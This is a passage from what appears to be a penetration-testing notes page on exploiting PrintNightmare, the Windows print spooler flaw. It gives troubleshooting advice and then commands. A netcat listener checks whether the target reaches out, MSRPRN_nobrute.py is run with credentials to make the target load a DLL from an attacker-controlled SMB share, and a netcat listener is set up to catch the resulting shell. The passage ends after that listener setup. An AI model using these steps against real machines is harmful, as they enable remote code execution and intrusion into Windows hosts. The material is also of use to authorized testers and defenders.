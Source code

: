 | After killing the session the payload does not work a second time                                             | Always ensure the first thing you do is restart the spooler service upon a shell connect. If you did this, use a different printername. Otherwise ur fuk'd                               |
| Sometimes when removing the print drivers the dll will execute again. This means your payload will run again. | Nothing, just something to be aware of if you use a payload that adds a user or w.e.                                                                                                     |

### Check if system reaches out

By simply trying to connect to a nc instance we can verify that the system can reach our smb server.

Start nc on 445.

```bash
sudo nv -nlvp 445
```

Run MSRPRN_nobrute and try to connect to nc.

```bash
python3 MSRPRN_nobrute.py 'user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

![test_if_system_reaches_out](images/test_if_system_reaches_out.png)

### Exploit

{{% notice warning %}}
Depending on the dll you use/actions you preform the the spooler services can crashes/hangs. From my experience in these cases you wont be able to run printnightmare a second time if you did not restart the spooler service before hand. A way around this might be to follow the [Outflank advice](https://github.com/outflanknl/PrintNightmare) to use printnightmare to load a DLL that starts a second thread/process with a new DLL that contains the actual RCE/w.e. payload.
{{% /notice %}}

#### Setup a listener

##### Netcat

```bash
nc -nlvp 80
```
